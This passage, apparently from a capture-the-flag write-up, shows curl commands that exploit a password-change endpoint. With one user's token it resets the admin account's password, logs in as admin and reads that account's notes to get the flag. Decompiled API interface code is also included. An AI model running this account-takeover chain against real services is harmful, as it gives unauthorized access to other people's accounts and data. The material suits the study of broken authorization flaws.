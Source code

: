 ```bash
└─# curl -X POST -H "Content-Type: application/json" -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY3Zjk4NWVhODUwYTI0ZTMwNDFjMDJlMiIsImVtYWlsIjoiYWRtaW5AaW5vdmF0aXZlLm5vdGVzIiwiaWF0IjoxNzQ0NDA1OTk0LCJleHAiOjE3NDUwMTA3OTR9.9th4D_thgRLVh6nwTfAGQHVWGmDNJtthtSRbyOgEKGs" -d '{"newPassword":"test", "userId": "67f97c4e850a24e3041c02d2"}' http://34.107.35.141:31166/api/auth/change-password
{"message":"Password changed successfully"}

(base) ┌──(root㉿kali)-[/home/kali/Desktop]
└─# curl -X POST \
  -H "Content-Type: application/json" \
  -d '{"email":"admin@inovative.notes", "password":"test"}' \
  http://34.107.35.141:31166/api/auth/login
{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY3Zjk3YzRlODUwYTI0ZTMwNDFjMDJkMiIsImVtYWlsIjoiYWRtaW5AaW5vdmF0aXZlLm5vdGVzIiwiaWF0IjoxNzQ0NDA2ODQ2LCJleHAiOjE3NDUwMTE2NDZ9.ibYJKyCJJy3eH6lupTfPMxZzsocwdz96MWCRClCW0IA","user":{"id":"67f97c4e850a24e3041c02d2","name":"Admin User","email":"admin@inovative.notes"}} 
```

Aaand, nothing. So, that token is just a simple JWT with nothing interesting in it. This means we have to get back to reversing the application. Looking more through it, we also see some notes APIs:
```Java
public interface NotesApi {
   @POST("/api/notes")
   Object createNote(@Header("Authorization") String var1, @Body CreateNoteRequest var2, Continuation var3);

   @DELETE("/api/notes/{id}")
   Object deleteNote(@Header("Authorization") String var1, @Path("id") String var2, Continuation var3);

   @GET("/api/notes/{id}")
   Object getNoteById(@Header("Authorization") String var1, @Path("id") String var2, Continuation var3);

   @GET("/api/notes")
   Object getNotes(@Header("Authorization") String var1, Continuation var2);
}

```

What sparks our interest is the GET `/api/notes`. Running that with the token of the admin yields the flag.
```bash
(base) ┌──(root㉿kali)-[/home/kali/Desktop]
└─# curl -X GET -H 'Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY3Zjk3YzRlODUwYTI0ZTMwNDFjMDJkMiIsImVtYWlsIjoiYWRtaW5AaW5vdmF0aXZlLm5vdGVzIiwiaWF0IjoxNzQ0NDA2ODQ2LCJleHAiOjE3NDUwMTE2NDZ9.ibYJKyCJJy3eH6lupTfPMxZzsocwdz96MWCRClCW0IA' http://34.107.35.141:31166/api/notes     
[{"_id":"67f97c4f850a24e3041c02d5","userId":"67f97c4e850a24e3041c02d2","title":"Secret Notes","content":"Yahoo credentials: username: l33t_h4cker. \n Password: CTF{9a4477c0b485e0427c177e1b4274df935f3bc867e537aae5bd54e0b22ea71eb1}","createdAt":"2025-04-11T20:32:15.038Z","updatedAt":"2025-04-11T20:32:15.039Z","__v":0}] 
```
Flag: `CTF{9a4477c0b485e0427c177e1b4274df935f3bc867e537aae5bd54e0b22ea71eb1}`
